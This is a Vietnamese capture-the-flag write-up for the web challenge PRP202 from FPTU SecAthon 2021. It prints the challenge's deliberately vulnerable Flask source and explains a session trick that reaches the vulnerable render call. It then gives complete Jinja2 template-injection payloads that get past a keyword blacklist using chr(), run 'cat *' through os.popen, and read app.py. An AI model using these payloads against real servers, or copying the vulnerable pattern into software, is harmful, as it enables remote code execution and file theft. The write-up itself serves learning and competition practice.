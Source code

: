 ```yaml
---
title: FPTU SecAthon 2021 | Web Writeup | PRP202
author:
  name: phucdc-noob
  link: https://github.com/phucdc-noob
date: 2021-10-13 12:30:00 +0700
categories: [CTF, Web]
tags: [writeups, web, fusec21]
mermaid: true
render_with_liquid: false
---
```


# PRP202

> Một bài hay và cực khó với mình, chả trách người anh T giấu tên cứ bảo làm thử<br>
> 2 ngày để làm, nhiều lần thất bại, nhưng kết quả thật xứng đáng

## [Source code](https://github.com/phucdc-noob/FUSec-Write-Ups/blob/main/PRP202.py) and analysis

### Source code
Bắt đầu vào bài, tại trang index, Ctrl U lên thấy source code Flask của web

```python
app = Flask(__name__, template_folder="template")
SESSION_TYPE = "filesystem"
app.config.from_object(__name__)
Session(app)
authCode = "C4n 1 Trust Y0u? Player "


# Our bot detected that some users had gained access to the system by malicious function, so we decided to ban it.
blacklist = ["'", '"', "request", "readlines", "+", "%2b", "%22", "%27", "linecache"]


def authCheck(input):
    if session.get(input) == None:
        return ""
    return session.get(input)


@app.route("/", methods=["GET", "POST"])
def index():
    try:
        session.pop("userCode")
        session.pop("winner")
    except:
        pass
    if request.method == "POST":
        ok = request.form["ok"]
        for ban in blacklist:
            if ban in request.form["name"]:
                return render_template_string("Hacker Alert!!!")
        session["userCode"] = request.form["name"]
        if ok == "Let's play!":
            session["check"] = "access"
            # bypass this? No way haha :D
            winner = "cocailonditconbamay"
            session["winner"] = winner
            return render_template_string(
                "Generating winner hash...<script>setInterval(function(){ window.location='/doanxem'; }, 500);</script>"
            )
    return render_template("index.html")


@app.route("/doanxem", methods=["GET", "POST"])
def doanxem():
    try:
        if authCheck("check") == "":
            return render_template_string(authCode + authCheck("userCode"))
        else:
            if request.method == "POST":
                winner_input = request.form["winner"]
                if winner_input == authCheck("winner"):
                    mess = (
                        "You are the real winner!!!!!!!!!! "
                        + authCheck("userCode")
                        + ", here your flag: https://youtu.be/dQw4w9WgXcQ"
                    )
                elif winner_input != authCheck("winner"):
                    mess = "Wrong! You die!<script>setInterval(function(){ window.location='/choilai'; }, 1200);</script>"
                return render_template_string(mess)
            return render_template("doanxem.html")
    except:
        pass
    return render_template_string(authCode + authCheck("userCode"))


@app.route("/choilai")
def reset_access():
    try:
        session.pop("check")
        return render_template_string(
            "You got an Extra Change. Gud luck :D!!!!!!<script>setInterval(function(){ window.location='/'; }, 500);</script>"
        )
    except:
        pass
    return render_template_string(authCode + authCheck("userCode"))


if __name__ == "__main__":
    app.secret_key = "###########"
    serve(app, host="0.0.0.0", port=8900)
```

### Analysis

Có `render_template_string()` nên rất dễ đoán đây là [SSTI](https://portswigger.net/research/server-side-template-injection)

Nhưng vì đã bị chặn `request.args` nên chắc phải inject từ một input nào đó :v

Review lại source code thì ta thấy có 2 chỗ `render_template_string()` cần sử dụng `authCheck("userCode")`, chính là cái tên ta nhập ở index

Ở `doanxem()` ta thấy `mess` là một đoạn code chuyển hướng sang `/choilai`

Sang đến `choilai()` thì ta thấy rằng nó sẽ `pop` cái mục `check` của session data, vậy câu hỏi ở đây là, nếu như ta để cho `doanxem` gửi một request sang `/choilai`, nhưng trước khi `/choilai` kịp render, ta drop cái request đó? Tất nhiên cái `session.pop("check")` vẫn được thực thi, nhưng không render. Và nếu ta gửi tiếp một request của `doanxem` vào `/choilai`, điều gì sẽ xảy ra? `session.pop()` sẽ lỗi vì đã pop trước đó, nên giờ không còn gì mà pop, và thay vì render ra chuyển hướng về index, thì đoạn render cuối sẽ được thực thi.

Đã rõ cách để trigger template, thử nhập `{{7*7}}` ở index và làm các bước như trên:

![7*7](https://raw.githubusercontent.com/phucdc-noob/FUSec-Write-Ups/main/img/PRP202_1.png)

## Exploit

Vậy là đã rõ, bây giờ việc cần làm là tạo ra payload, trước tiên, hãy review cái black list của source code đã:

```python
blacklist = ["'", '"', "request", "readlines", "+", "%2b", "%22", "%27", "linecache"]
```

Đoạn này khá là khó, vì black list chứa những kí tự và từ khóa phổ biến để tạo payload SSTI

Suy nghĩ mãi làm thế nào để tạo payload thì người anh TungDLM bảo `chr`, sáng dạ thêm một tí

Cụ thể thì ta sẽ dùng `chr()` để tạo các kí tự trong string và ghép chúng lại, nhưng trước tiên, phải define nó

Thử nhập `().__class__.__base__.__subclasses__()` để list các subclass và mình thấy, tại vị trí 80 có `<class '_frozen_importlib._ModuleLock'>`, có thể sử dụng nó để define `chr`:

```python
{% set ().__class.__.__base__.__subclasses__()[80].__init__.__globals__.__builtins__.chr %}
```

Đoạn này phải cảm ơn 3 chữ `s e t` của anh TaiDH, một pro đã giải bài này trong 15 phút, trước cả mình

Ok, để đoạn define ở đó, bây giờ đến đoạn payload chính, có rất nhiều hướng làm:

### Sử dụng `cycler`, `__doc__` và `replace` (TungDLM):

```python
{{cycler.__init__.__globals__.os.popen(().__doc__[36:41].replace(chr(97),chr(99)).replace(chr(114),chr(97)).replace(chr(103),chr(116)).replace(chr(117),chr(32)).replace(chr(109),chr(42))).read()}}
```

Dễ hiểu là, chúng ta sẽ lợi dụng đoạn `__doc__` của `Tuple`, ví `__doc__` là một String nên ta chỉ việc cắt một đoạn của nó ra, `replace()` để thay thế các kí tự, sử dụng `chr()` để thay cho việc dùng `''/""`. Nhờ đó tạo được câu lệnh để `os.open()` thực thi (`cat *`) và in ra tại `read()`

Payload hoàn chỉnh:

```python
{% set chr = ().__class__.__base__.__subclasses__()[80].__init__.__globals__.__builtins__.chr %}{{cycler.__init__.__globals__.os.popen(().__doc__[36:41].replace(chr(97),chr(99)).replace(chr(114),chr(97)).replace(chr(103),chr(116)).replace(chr(117),chr(32)).replace(chr(109),chr(42)))}}
```

### Sử dụng `__add__` (by me):

```python
{{().__class__.__base__.__subclasses__()[80].__init__.__globals__.__builtins__.open(chr(97).__add__(chr(112).__add__(chr(112).__add__(chr(46).__add__(chr(112).__add__(chr(121)))))))}}
```

Tại đây mình sử dụng `__add__` để nối các kí tự thành chuỗi và `open()` để mở file, không khuyến khích làm theo, khổ dâm lắm :'( 

Payload hoàn chỉnh:

```python
{% set chr = ().__class__.__base__.__subclasses__()[80].__init__.__globals__.__builtins__.chr %}{{().__class__.__base__.__subclasses__()[80].__init__.__globals__.__builtins__.open(chr(97).__add__(chr(112).__add__(chr(112).__add__(chr(46).__add__(chr(112).__add__(chr(121)))))))}}
```

## Flag:

![flag](https://raw.githubusercontent.com/phucdc-noob/FUSec-Write-Ups/main/img/PRP202_2.png)

Flag: `FUSEC{@@@@@@Th3_n3Xt_l3v3l_pL4y!!!!!!!!}`

> Rất có thể có nhiều cách khác, vì anh TungDLM đã để nhả

> Cảm ơn anh TungDLM và anh TaiDH đã hỗ trợ trong quá trình giải bài này

## References:

- [https://doantung99.medium.com/fpt-night-wolf-ctf-writeup-de43925ed84b](https://doantung99.medium.com/fpt-night-wolf-ctf-writeup-de43925ed84b), WU của anh TungDLM trong giải NightWolf-CTF do SAS tổ chức, trong đó có bài XSMB, cùng SSTI tương tự, tại bài đó, anh Tùng có đính kèm 2 link tham khảo
    
- [https://chowdera.com/2020/12/20201221231521371q.html](https://chowdera.com/2020/12/20201221231521371q.html), đây là bài viết mình tham khảo rất rất nhiều, chi tiết và có thêm 3 đoạn code viết bằng python giúp tìm vị trí các class dễ hơn, một số trick bypass filter, nên tham khảo

- [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection), đây là bài viết của Jame Kettle về SSTI, nếu nhớ không nhầm chính ông này nghiên cứu ra SSTI, nên đọc nếu chưa biết nhiều về SSTI
